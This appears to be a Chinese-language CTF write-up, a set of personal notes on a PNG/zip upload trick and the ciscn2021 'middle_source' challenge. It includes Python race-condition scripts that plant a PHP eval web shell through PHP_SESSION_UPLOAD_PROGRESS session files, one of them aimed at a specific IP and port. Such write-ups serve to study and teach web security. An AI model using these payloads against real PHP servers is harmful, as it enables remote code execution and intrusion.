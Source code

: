 用png-payload生成图片文件，添加压缩包，重命名test.zip，加上png标识（php合成到zip）

```
#define width 1
#define height 1
```

利用ctf=upload    postman上传文件后，get连0或post数据为1

<img src="C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210523220528692.png" alt="image-20210523220528692" style="zoom:50%;" />

利用ctf=poc进行解压

<img src="C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210523220703519.png" alt="image-20210523220703519" style="zoom:50%;" />

直接利用shell层层探索拿到

![image-20210523220816446](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210523220816446.png)

### ciscn2021_middle_source

知识点：PHP_SESSION_UPLOAD_PROGRESS，条件竞争

<img src="C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210519172410094.png" alt="image-20210519172410094" style="zoom:67%;" />

扫目录得到/.listing,登录给出的php是个phpinfo，有session存储路径

![image-20210519163523944](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210519163523944.png)

PHP_SESSION_UPLOAD_PROGRESS(浏览器向服务器上传文件时，php会将此次文件上传详细信息存储session)上传到session目录，内容eval($_GET[0])

```
//bp抓包得到post
import requests 
import io 
import time 
import threading 
url='http://124.71.228.199:21296/' 
proxies={'http': 'http://127.0.0.1:1080'}  //走bp代理
def upload(session): 
    f = io.BytesIO(b'a' * 1024 * 50) 
    files = {'file': ('1.txt', f)} 
    while 1: 
        re=requests.post(url,files=files,data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_GET[0]);?>'},cookies={"PHPSESSID": "wanderer"})
        print(re.status_code) 
        time.sleep(0.2) 
if __name__=="__main__": 
    sess=requests.session()
    while 1:
        upload(sess)
        
//python打印包得到post
import requests
url = 'http://xxx.xxx.xxx.xxx:xxxx/?page=/tmp/sess_mochu7'
mydata = {'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_GET[0]);?>'} 
myfile = {'file':('mochu7.txt','mochu7')}
mycookie = {'PHPSESSID': 'mochu7'}
r = requests.post(url=url, data=mydata, files=myfile, cookies=mycookie)
print(r.request.body.decode('utf8'))
```


[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604